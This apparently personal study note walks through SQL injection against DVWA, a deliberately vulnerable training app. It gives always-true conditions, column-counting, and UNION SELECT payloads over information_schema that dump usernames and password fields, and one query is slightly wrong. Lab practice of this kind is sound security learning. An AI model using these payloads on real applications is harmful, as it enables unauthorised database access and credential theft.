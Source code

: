 # DVWA sql injection

Some basic things to know

**Error Based Injection**
- exploited through triggering errors in the database when invalid inputs are passed to it <br>[Error Based](https://sqlwiki.netspi.com/injectionTypes/errorBased/#mysql)

**Union-Based Injection**
- Allows an attacker to extract information from the database by extending the results returned by the original query <br>[Union-Based Injection](https://sqlwiki.netspi.com/injectionTypes/unionBased/#mysql)

**Blind Injection**
- Paritial blind
    - queries that return HTTP Status Codes, or other markers in the HTML response, that indicate true or false statements <br>[Partial-Blind/Full-Blind](https://sqlwiki.netspi.com/injectionTypes/blindBased/#mysql)
- Full blind
    - [Partial-Blind/Full-Blind](https://sqlwiki.netspi.com/injectionTypes/blindBased/#mysql)

## DVMA explained in 
> [DVWA SQL Injection Exploitation Explained (Step-by-Step)](https://www.golinuxcloud.com/dvwa-sql-injection/#Step_1_Setup_DVWA_for_SQL_Injection)

## DVMA solutions
> https://bughacking.com/dvwa-ultimate-guide-first-steps-and-walkthrough/#SQL_Injection_Blind

## Security low

### Using basic injection
    Id is get from the web site parameter
    By executing simple sql such as
    Select (database attributes) from (database table) where (param) = '(value)';

### Always true
    %' or '1'='1'
    %' or '0'='0'
    any thing that is always true

    The percent sign does not equal anything and will be false so it the second part will be ran '1'='1'

    This will return all the users inside the database

### Database version

Similar to alway true

    %' or 0=0 union select null, version() #
    This show which database version it is running on at the end

### Display db user
    %' or 0=0 union select null, user() #

## Display all tables
    %' or 0=0 union select null, table_name from information_schema.tables #

## Display all the user table
    %' or 0=0 union select null, table_name from information_schema.tables # where table_name like 'user%'#

## Display all the columns
    %' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #

## Display column fields
    %' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #

## sql injection in general
> [Examining the database in SQL injection attacks](https://portswigger.net/web-security/sql-injection/examining-the-database)



# Easy inject

## Check if always true injection works

    ' OR ''='

> This will return all the First_name and surname

## Check number of columns return

    ' order by (n)#

> Keep increasing n until the returns unknown column

## Get the table name info using information_schema

    ' union select null, schema_name from information_schema.schemata#

> This will return all the information schema schemas
> 
> among the list, there is a table schema that we can take a look at

    ' union select null, table_name from information_schema.tables#

> This will return all the tables inside the database
> >
> One that can be seen is users,
> >
> If you cannot determine which one si the right table, check them all out

## Using table name to find the columns

    ' union select null, column_name from information_schema.tables where table_name='users'#

> This will return all the columsn from the current table name of "users"

## Get info

    ' union select null, (any column) from users #

> This will allow us to get any information from the table.
> >
> This method will also work when doing blind injection

#Symbol comments out the rest (seems optional inside dvwa)